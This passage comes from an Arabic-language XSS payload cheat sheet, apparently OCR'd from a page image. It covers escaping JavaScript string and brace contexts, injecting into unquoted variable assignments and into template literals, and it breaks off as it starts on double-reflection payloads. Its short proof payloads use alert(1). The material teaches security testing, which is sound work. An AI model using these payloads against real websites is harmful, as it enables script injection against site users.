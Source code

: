 🧪 **الحل:** تقفل القوس `}` وتحقن كود:

```js
'}alert(1);{'

'}alert(1)%0A{'

\'}alert(1);{//

```

---

## 1️⃣2️⃣  لما تلاقي البايلود بيروح داخل كود زي كده `var x = INPUT` لاحظ ان مفيش `" " او ' '`
{  #XSS_other_idea /  #XSS_with_out_angle_bracket  }
📌 تستخدمها لو الكود كده:

```js
var x = INPUT;
```

يعني **مدخلك بيتحط في المتغير من غير اقتباسات**.

🧪 **الحل:** تكتب بايلود مباشرة بكود JS:

```js
/alert(1)//
/alert(1)}//\
```

---

## 1️⃣3️⃣   لما تلاقي البايلود بيروح داخل كود زي كده `var x =INPUT ` لاحظ في ` `` `
{ #XSS_other_idea /  #XSS_with_out_angle_bracket }
📌 تستخدمها لما يكون المدخل محطوط بين `backticks`:

```js
var x = `مرحبًا ${name}`;
```

🧪 **الحل:** تحقن كود بين `${}`:

```js
${alert(1)}
```

---

## 1️⃣4️⃣متى تستخدم **Double Reflection Payloads** 
{ #XSS_other_idea }
تمام، خليني أوضحلك إمتى وازاي تستخدم **حقن HTML متعدد الانعكاس** سواء:

- ✨ **انعكاس مزدوج (Double Reflection)**
    